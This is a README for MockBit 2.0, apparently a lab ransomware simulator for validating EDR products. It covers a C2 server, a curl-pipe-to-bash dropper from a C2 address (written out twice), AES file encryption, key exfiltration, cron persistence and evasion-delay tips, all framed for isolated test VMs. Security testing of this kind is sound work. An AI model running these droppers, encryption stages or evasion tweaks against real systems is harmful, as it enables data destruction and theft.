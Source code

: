 # MockBit 2.0

**Safe ransomware simulation for EDR validation**

> ⚠️ **Read first:** MockBit is a controlled, fully reversible lab tool. Use it *only* in isolated VMs or air‑gapped networks that you own. Never deploy it on production, shared, or third-party systems.

---

## Table of contents

1. [Overview](#overview)
2. [Quick start (5 minutes)](#quick-start-5-minutes)
3. [Repository structure](#repository-structure)
4. [Manual usage](#manual-usage)
5. [Customization tips](#customization-tips)
6. [Troubleshooting](#troubleshooting)
7. [License & contributions](#license--contributions)
8. [MITRE ATT&CK mapping](#mitre-attck-mapping)

---

## Overview

MockBit behaves like real ransomware (ATT&CK T1486) while keeping you in full control:

| Stage        | Realism                         | Safety net                               |
|--------------|---------------------------------|-------------------------------------------|
| Delivery     | `curl` / `wget` payload         | No exploits, no privilege escalation      |
| Encryption   | AES-256-CBC via OpenSSL         | Key logged → 100 % decryptable            |
| Exfiltration | File list + key fragment        | Only dummy data you create                |
| Persistence  | Optional cron job               | One-liner removal included                |
| Cleanup      | —                               | Built-in decryptor and uninstaller        |

---

## Quick start (5 minutes)

**Lab topology**

```
    +-----------+      +---------------+
    | Attacker  |----->| Victim VM     |
    | (C2 host) |      | (SentinelOne) |
    +-----------+      +---------------+
```

**One-command install (attacker – AlmaLinux 8.10)**

```bash
sudo dnf install -y git python3-pip openssl
git clone https://github.com/Deathcrusher/mockbit_2.0.git
cd mockbit_2.0
chmod +x setup.sh && sudo ./setup.sh
```

**Example output**

```
C2 running at http://192.168.1.100:8080
Payload URL for curl: http://192.168.1.100:8000/payload_downloader.sh
Test trigger: curl -s http://192.168.1.100:8000/payload_downloader.sh | bash
Victim run will populate /tmp/test_victim (200 items)
```

**Trigger on victim (non-root for maximum EDR visibility)**

```bash
curl -s http://192.168.1.100:8000/payload_downloader.sh | bash
```

Watch SentinelOne raise alerts, then decrypt when the run completes.

---

## Repository structure

```
mockbit_2.0/
├── setup.sh              # Installer & test-file generator
├── c2_server.py          # Flask C2 (beacon, exfil, key log)
├── payload_downloader.sh # Stage-0 dropper
├── ransomware.sh         # Stage-1 encryptor
├── decryptor.sh          # Stage-2 recovery
└── README.md             # This guide
```

> **Note:** `ransomware.sh` replaces the legacy `ransomware_core.sh` referenced in older docs.

---

## Manual usage

Skip `setup.sh` if you prefer to run individual stages.

```bash
# Encrypt only
./ransomware.sh /target/dir http://c2:8080

# Decrypt only
./decryptor.sh /target/dir "KEY" "IV"

# Stop the C2 server
pkill -f c2_server.py

# (Optional) clean up lab artefacts manually
#   - Remove generated cron jobs
#   - Delete /tmp/test_victim or other test directories
```

---

## Customization tips

- **Environment configuration:** update `.env` (or provide `ENV_FILE_PATH=/path/to/file`) to set `C2_URL`, `TARGET_DIR`, and the encrypted file suffix without editing scripts. Running `setup.sh` now renders these values directly into the hosted payload so remote victims inherit your configuration automatically.
- **Cipher suite:** change the `openssl enc -aes-256-*` invocation.
- **Evasion delays:** insert `sleep $((RANDOM % 10))` or similar pauses.
- **Parallelization:** leverage `xargs -P 8 -I {} …` for multi-threaded encryption.
- **C2 endpoint overrides:** export `C2_URL` inline (e.g., `C2_URL=http://192.168.1.5:8080 ./payload_downloader.sh`) for ephemeral tests.

---

## Troubleshooting

| Issue                | Resolution |
|----------------------|------------|
| Port 8080 blocked    | `sudo firewall-cmd --add-port=8080/tcp --permanent && sudo firewall-cmd --reload` |
| No SentinelOne alert | Run as **non-root** and ensure “Deep Visibility” + “Ransomware” policies are enabled. |
| Decrypt fails        | Use the key and IV from the **same run** (check the C2 `/exfil` endpoint or ransom note). |
| Python missing       | `sudo dnf install python3 python3-pip && pip3 install flask` |
| Flask install fails  | Use the pinned dependency (`flask==2.0.3`) included in `requirements.txt`; some offline mirrors do not host newer Flask builds yet. |

---

## License & contributions

- MIT License © 2025 Deathcrusher
- Pull requests welcome (e.g., Windows port, additional TTPs, educational EDR bypass research)

---

## MITRE ATT&CK mapping

- **T1566.002 – Initial Access:** `curl` / `wget` payload delivery
- **T1059.004 – Execution:** Unix shell
- **T1053.003 – Persistence:** Optional cron job
- **T1041 – Exfiltration:** HTTP POST to the C2 server
- **T1486 – Impact:** Data encrypted for impact
